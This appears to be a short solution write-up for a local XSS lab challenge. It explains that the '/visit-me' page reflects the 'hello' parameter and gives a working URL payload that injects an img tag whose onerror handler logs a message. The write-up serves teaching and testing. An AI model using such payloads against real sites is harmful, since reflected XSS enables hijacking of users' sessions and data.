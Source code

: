 # Solution

## Injection

The `/visit-me` page is vulnerable to a reflected client-side xss injection via the `hello` query parameter.

## Working Payload

```
http://localhost:52052/visit-me?hello=%3Cimg%20src=a%20onerror=console.log(%22I_FOUND_AN_XSS!!!%22)%3E
```
